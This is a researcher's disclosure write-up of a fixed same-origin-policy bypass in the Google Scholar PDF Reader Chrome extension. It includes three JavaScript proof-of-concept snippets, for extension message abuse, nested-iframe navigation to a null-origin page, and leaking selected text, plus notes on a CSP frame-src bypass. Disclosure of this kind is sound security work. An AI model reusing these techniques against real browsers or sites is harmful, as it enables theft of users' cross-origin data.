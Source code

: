 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```


Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>  
Google Scholar PDF Reader is apparently not an official Google app so was not awarded :( 

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({type: 'fetch', method: 'GET', url: 'https://www.google.com/something.json', id: 1});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf'; document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location = 'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
 let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
 let result = await reader.read();
 console.log(result.value);
}
parent.parent.postMessage({type: 'fetch', url: 'https://services.google.com/example'}, '*');
```

# Leak 3 (Without compromised renderer)

```js
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```
Selected text gets leaked cross-origin.

```js
onmessage=console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario
An attacker controlled website can bypass SOP if one of the follow is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass
Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
